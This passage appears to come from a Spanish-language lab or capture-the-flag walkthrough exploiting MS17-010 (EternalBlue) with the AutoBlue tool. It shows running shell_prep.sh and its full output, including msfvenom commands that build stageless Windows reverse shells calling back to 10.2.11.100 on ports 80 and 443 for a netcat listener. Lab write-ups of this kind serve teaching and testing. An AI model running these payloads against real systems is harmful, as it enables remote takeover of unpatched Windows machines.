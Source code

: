 Nos movemos al repositorio clonado.

```bash
cd AutoBlue-MS17-010
```

Navegamos hasta el directorio `shellcode` y ejecutamos el comando:

```bash
./shell_prep.sh
```

Este script nos brinda la posibilidad de adaptar nuestros payloads a las arquitecturas x64 y x86 de acuerdo a nuestras requerimientos específicos. Los parámetros de configuración son los siguientes:

- `LHOST` → para especificar la dirección IP del host local para conectarse
- `LPORT` → para especificar el puerto en escucha del host local, tanto para arquitectura x64 y x86.
- `Type` → para especificar un payload por etapas o sin etapas. En este caso utilizaremos un payload sin etapas para poder recibir la conexión con `netcat`.

```bash
❯ ./shell_prep.sh
                 _.-;;-._
          '-..-'|   ||   |
          '-..-'|_.-;;-._|
          '-..-'|   ||   |
          '-..-'|_.-''-._|   
Eternal Blue Windows Shellcode Compiler

Let's compile them windoos shellcodezzz

Compiling x64 kernel shellcode
Compiling x86 kernel shellcode
kernel shellcode compiled, would you like to auto generate a reverse shell with msfvenom? (Y/n)
y
LHOST for reverse connection:
10.2.11.100
LPORT you want x64 to listen on:
80
LPORT you want x86 to listen on:
443
Type 0 to generate a meterpreter shell or 1 to generate a regular cmd shell
1
Type 0 to generate a staged payload or 1 to generate a stageless payload
1
Generating x64 cmd shell (stageless)...

msfvenom -p windows/x64/shell_reverse_tcp -f raw -o sc_x64_msf.bin EXITFUNC=thread LHOST=10.2.11.100 LPORT=80
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Saved as: sc_x64_msf.bin

Generating x86 cmd shell (stageless)...

msfvenom -p windows/shell_reverse_tcp -f raw -o sc_x86_msf.bin EXITFUNC=thread LHOST=10.2.11.100 LPORT=443
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Saved as: sc_x86_msf.bin

MERGING SHELLCODE WOOOO!!!
```